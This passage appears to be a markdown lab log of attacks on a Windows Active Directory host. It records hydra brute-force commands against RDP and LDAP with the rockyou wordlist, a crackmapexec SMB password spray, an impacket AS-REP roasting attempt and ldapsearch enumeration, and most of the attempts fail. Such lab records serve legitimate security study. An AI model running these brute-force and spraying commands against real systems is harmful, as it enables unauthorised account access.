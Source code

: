 ```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.2 -t 1 -W 3
```

**Result:**
- RDP module is **experimental**
- No login attempts succeeded
- Common error: `File for logins not found` due to misuse of `-L` instead of `-l`

---

### 📛 LDAP Brute-force Attempt (FAILED)

```bash
hydra -L user_list.txt -P rockyou.txt ldap3://192.168.1.2
```

- Required authentication method not set properly at first
- Updated command using `ldap3://` for simple auth

---

### 🔍 SMB Enumeration via CrackMapExec

```bash
crackmapexec smb 192.168.1.2 -u user_list.txt -p password123
```

**Result:**
- Windows 10 Build 26100 detected
- NETBIOS connection timed out
- Likely network timeout or access control

---

### 📚 Impacket GetNPUsers (FAILED)

```bash
impacket-GetNPUsers narnia.com/ -no-pass -usersfile user_list.txt
```

**Result:**
- File not found: `user_list.txt`
- User list needs to be rebuilt or verified

---

### 📂 LDAP Enumeration

```bash
ldapsearch -x -H ldap://192.168.1.2 -b "" -s base "(objectclass=*)" namingContexts
```

**Status:** Syntax adjusted – ready to extract baseDN for AD enumeration.

---

## 🛡️ Sysmon Detection

